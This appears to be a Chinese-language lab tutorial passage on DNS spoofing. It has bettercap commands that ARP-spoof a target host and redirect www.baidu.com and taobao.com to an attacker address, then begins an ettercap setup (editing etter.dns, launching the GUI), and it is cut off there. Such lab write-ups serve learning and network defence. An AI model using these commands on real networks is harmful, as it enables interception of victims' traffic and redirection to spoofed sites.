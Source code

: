 DNS欺骗之前，我们先得进行ARP欺骗，就是先欺骗主机让其认为网关就是我(攻击机)。然后由于主机的DNS服务器就是网关，所以主机会向我们发送DNS请求，这样我们就可以进行欺骗了。

```
set arp.spoof.targets 192.168.41.128    #设置arp欺骗的主机以逗号分隔，默认是整个子网
arp.spoof on    #先开启arp欺骗
set dns.spoof.domains www.baidu.com,www,taobao.com  #设置要欺骗的域名,多个域名用,分开，如果要欺骗所有的域名的话，为 * 
set dns.spoof.address 100.66.10.247   #设置将要欺骗的域名转换成对应的ip地址
dns.spoof on   #开启dns欺骗，www.baidu.com和www.taobao.com对应的ip是100.66.10.247
```

使用bettercap2.x实验失败，一直返回endpoint。

还是使用ettercap实验

# 成功实验

修改`/etc/ettercap/etter.dns文件`

![分享图片](../../../../../ImageAssets/20191103181548281619.png)

 

 开启ettercap

```
ettercap -G
```

选择模式默认全局Sniff->Unified sniffing
